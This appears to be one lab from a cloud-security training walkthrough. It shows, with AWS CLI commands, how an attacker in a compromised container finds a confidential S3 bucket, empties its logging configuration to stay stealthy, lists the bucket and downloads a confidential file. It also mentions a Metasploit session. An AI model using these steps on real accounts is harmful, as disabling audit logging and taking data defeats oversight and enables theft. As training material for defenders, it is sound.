 # Lab 4: Moving laterally to a S3 bucket

In the previous lab, we explored the compromised container and discovered an associated IAM profile with access to the AWS CLI. We also discovered that we have read access to Amazon Simple Storage Service (S3).

**Breakout**

Having identified this new potential lateral target (via S3 read access), let’s investigate how we can further leverage the AWS CLI.

Due to a fairly common access control misconfiguration, we can impersonate both the root user of this container, along with the existing AWS IAM profile associated with this container (for accessing AWS services). It is possible that excessive permissions have been assigned to this IAM profile, so let’s continue probing our capabilities in S3.

In the previous lab, we enumerated the AWS account S3 buckets.

![Listing S3 contents](lab3-5.png)

Notice that two buckets include the string “confidential” and one of them appears to be a logging bucket. To be stealthy, we should disable any active bucket access logging policy that might be writing to that bucket.

_Get the target bucket name_

```shell
TARGET_BUCKET=$(aws s3api list-buckets --query 'Buckets[].[Name]' --output text | grep confidentialbucket)

echo $TARGET_BUCKET
```

Check for a bucket logging policy

```shell
aws s3api get-bucket-logging --bucket $TARGET_BUCKET
```

[Bucket logging configuration](lab4-1.png)

> [!NOTE]
> If your Metasploit session closes unexpectedly, type “run -j” at the metasploit console prompt to reconnect to the target.

We can see from the result that there is a logging bucket policy. We’ll create and associate an empty bucket policy with the confidential data bucket to disable the policy.

Associate an empty bucket-logging policy to disable bucket logging

```shell
echo "{}" > no-bucket-logging.json

aws s3api put-bucket-logging --bucket $TARGET_BUCKET --bucket-logging-status file://no-bucket-logging.json
```

Confirm that we attached the new bucket logging policy

```shell
aws s3api get-bucket-logging --bucket $TARGET_BUCKET
```

Since we added a null policy, the command should return nothing. It worked!

**Confirming the S3 target**

Now we’re just going to try and access the confidential bucket and see if we get results. AWS S3 buckets support granular permissions, so while we may have access to the bucket, we might not be able to list files, or only list specific files.

```shell
aws s3 ls s3://$TARGET_BUCKET
```

![Reviewing bucket target](lab4-2.png)

Success!

We only see the one file, but it does look pretty interesting...

Download the file to the local container

```shell
aws s3 cp s3://$TARGET_BUCKET/confidential-data.txt s3-captured.txt
```

**Attack progression diagram**

There are three steps to this attack. The diagram below shows what we have accomplished with a few simple misconfigurations.

![Attack progression](lab4-3.png)
